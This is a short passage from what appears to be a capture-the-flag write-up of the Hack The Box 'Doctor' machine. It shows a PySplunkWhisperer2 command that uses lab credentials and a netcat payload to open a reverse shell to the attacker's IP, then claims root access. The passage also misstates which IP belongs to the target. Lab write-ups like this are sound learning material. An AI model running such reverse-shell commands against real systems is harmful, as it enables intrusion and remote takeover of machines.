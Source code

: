 Exploiting the Splunk using parameters required as mentioned in the readme file of Splunk

_python3 PySplunkWhisperer2\_remote.py — host 10.10.10.209 — lhost 10.10.14.33 — username shaun — password Guitar123 — payload ‘nc.traditional -e/bin/sh ‘10.10.14.33’ ‘1233’’_

Here 10.10.14.33 is the host IP(Doctor’s) address and 10.10.14.33 is our IP address. Thus using netcat trying to get reverse shell

<figure><img src="https://miro.medium.com/v2/resize:fit:700/1*LaJtYI01XIr2XgA_YyhNEA.png" alt="" height="147" width="700"><figcaption></figcaption></figure>

Make sure the netcat listener is active on the port which we have mentioned in the parameter of SPLUNK, here in our case “1233"

<figure><img src="https://miro.medium.com/v2/resize:fit:515/1*HgbgOwce3AQwJCsUoQTLHw.png" alt="" height="113" width="515"><figcaption></figcaption></figure>

Boom we got the root access!!!
